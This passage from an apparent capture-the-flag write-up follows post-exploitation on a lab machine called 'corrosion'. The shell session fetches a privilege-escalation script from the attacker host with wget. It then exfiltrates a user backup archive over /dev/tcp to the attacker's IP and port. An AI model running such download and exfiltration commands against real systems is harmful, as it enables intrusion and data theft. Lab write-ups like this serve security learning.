 Now we have a reverse shell...With some manual enumeration, we can assertain that user randy indeed exists on the system. I did go a step further to upload linepeas on the target machine and try find out interesting files or privilege escalation paths.

```bash
www-data@corrosion:/var/www/html/blog-post/archives$ cd /tmp/
www-data@corrosion:/tmp$ wget http://192.168.56.106/linepeas.sh
--2022-01-17 17:42:54--  http://192.168.56.106/linepeas.sh
Connecting to 192.168.56.106:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 325335 (318K) [text/x-sh]
Saving to: ‘linepeas.sh’

linepeas.sh                  100%[==============================================>] 317.71K  --.-KB/s    in 0.008s

2022-01-17 17:42:54 (39.7 MB/s) - ‘linepeas.sh’ saved [325335/325335]

www-data@corrosion:/tmp$ chmod +x linepeas.sh
www-data@corrosion:/tmp$
```

I did not seems to find anything interesting, though i did find the user's home directory backup in `/var/backups`

![image](https://user-images.githubusercontent.com/58165365/149884102-30d22e9e-ab08-4a00-a8c8-865142b920f9.png)

We can transfer this file to our system as shown below:

```bash
www-data@corrosion:/tmp$ cd /var/backups/
www-data@corrosion:/var/backups$ ls -la
total 2668
drwxr-xr-x  2 root root    4096 Jan 17 16:02 .
drwxr-xr-x 15 root root    4096 Jul 29 17:13 ..
-rw-r--r--  1 root root   61440 Jan 17 16:02 alternatives.tar.0
-rw-r--r--  1 root root    2867 Jul 29 17:15 alternatives.tar.1.gz
-rw-r--r--  1 root root  102709 Jul 29 23:51 apt.extended_states.0
-rw-r--r--  1 root root      11 Jul 29 17:05 dpkg.arch.0
-rw-r--r--  1 root root      43 Jul 29 17:05 dpkg.arch.1.gz
-rw-r--r--  1 root root      43 Jul 29 17:05 dpkg.arch.2.gz
-rw-r--r--  1 root root     616 Jul 29 17:06 dpkg.diversions.0
-rw-r--r--  1 root root     220 Jul 29 17:06 dpkg.diversions.1.gz
-rw-r--r--  1 root root     220 Jul 29 17:06 dpkg.diversions.2.gz
-rw-r--r--  1 root root     272 Jul 29 19:23 dpkg.statoverride.0
-rw-r--r--  1 root root     194 Jul 29 19:23 dpkg.statoverride.1.gz
-rw-r--r--  1 root root     168 Apr 20  2021 dpkg.statoverride.2.gz
-rw-r--r--  1 root root 1721335 Jul 30 14:30 dpkg.status.0
-rw-r--r--  1 root root  395230 Jul 29 23:51 dpkg.status.1.gz
-rw-r--r--  1 root root  386883 Jul 29 17:13 dpkg.status.2.gz
-rw-r--r--  1 root root    3285 Jul 30 00:24 user_backup.zip
www-data@corrosion:/var/backups$ cat user_backup.zip > /dev/tcp/192.168.56.106/8888
www-data@corrosion:/var/backups$
```
